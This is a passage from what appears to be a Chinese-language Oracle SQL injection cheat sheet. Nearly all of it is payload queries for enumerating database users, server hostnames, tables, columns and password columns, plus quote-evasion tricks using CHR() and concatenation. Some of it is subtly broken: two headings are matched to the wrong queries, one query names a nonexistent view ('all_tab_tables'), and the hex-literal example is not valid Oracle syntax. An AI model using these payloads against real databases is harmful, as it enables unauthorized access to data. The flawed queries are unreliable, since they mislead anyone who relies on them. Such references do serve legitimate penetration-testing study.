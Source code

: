 #### 用户数据库

`SELECT DISTINCT owner FROM all_tables;`

#### 服务主机名

```text
SELECT host_name FROM v$instance; (Privileged)
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT UTL_INADDR.get_host_name('10.0.0.1') FROM dual;
SELECT UTL_INADDR.get_host_address FROM dual;
```

#### 表名和列名

猜解表名

```text
SELECT table_name FROM all_tables;
```

猜解列名：

```text
SELECT column_name FROM all_tab_columns;
```

#### 从列名查找表

```text
SELECT column_name FROM all_tab_columns WHERE table_name = 'Users';
```

#### 从表名查找列

```text
SELECT table_name FROM all_tab_tables WHERE column_name = 'password';
```

#### 一次检索多个表

```text
SELECT RTRIM(XMLAGG(XMLELEMENT(e, table_name || ',')).EXTRACT('//text()').EXTRACT('//text()') ,',') FROM all_tables;
```

#### 避免使用引号

与其他RDBMS不同，Oracle允许对表/列名进行编码。

```text
SELECT 0x09120911091 FROM dual;    Hex Encoding.
SELECT CHR(32)||CHR(92)||CHR(93) FROM dual;    CHR() Function.
```

#### 字符串连接

```text
SELECT 'a'||'d'||'mi'||'n' FROM dual;
```
